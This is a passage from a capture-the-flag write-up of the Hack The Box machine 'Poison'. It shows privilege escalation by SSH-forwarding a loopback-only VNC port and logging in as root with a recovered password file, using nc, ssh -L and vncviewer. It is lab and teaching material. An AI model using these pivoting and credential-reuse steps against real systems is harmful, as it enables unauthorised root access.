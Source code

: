 Connecting to port 9100 via loopback gives the output `"RFB 003.008"`, confirming my theory above.
```
charix@Poison:~ % nc 127.0.0.1 9100
RFB 003.008
^C
```


So I editted the command a little. This is because I want the bind address to be `10.10.10.84` instead of `127.0.0.1` so that I can connect it from my computer.
```
charix@Poison:~ % ssh -L 10.10.10.84:9100:127.0.0.1:5901 -N -f -l charix 10.10.10.84
Password for charix@Poison:
charix@Poison:~ % sockstat -l | grep "9100"
charix   ssh        2413  4  tcp4   10.10.10.84:9100      *:*
charix   ssh        2315  4  tcp6   ::1:9100              *:*
charix   ssh        2315  5  tcp4   127.0.0.1:9100        *:*
charix@Poison:~ % 
```

This time, connecting to port 9100 from my computer via nc gives the expected output. This means we can finally connect to root's xvnc server.
```
➜  Poison git:(master) ✗ nc 10.10.10.84 9100
RFB 003.008
^C
➜  Poison git:(master) ✗ 
```


### Got root

Turns out the secret file is actually the password file for root's vnc server. I dunno why it is. But it was a random guess, and it worked.

> ** -passwd password-file**
>  
> If you are on a filesystem which gives you access to the password file used by the server, you can specify it here to avoid typing it in. It will usually be "~/.vnc/passwd".
>  
> *--vncviewer [man pages](https://linux.die.net/man/1/vncviewer)*

I had to add the flag `-quality 0` because without it, all I got was a grey screen.
```
➜  Poison git:(master) ✗ vncviewer 10.10.10.84:9100 -passwd ./secret -quality 0
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
Desktop name "root's X desktop (Poison:1)"
```

![](hackthebox_machines_Poison_vnc_as_root.png)
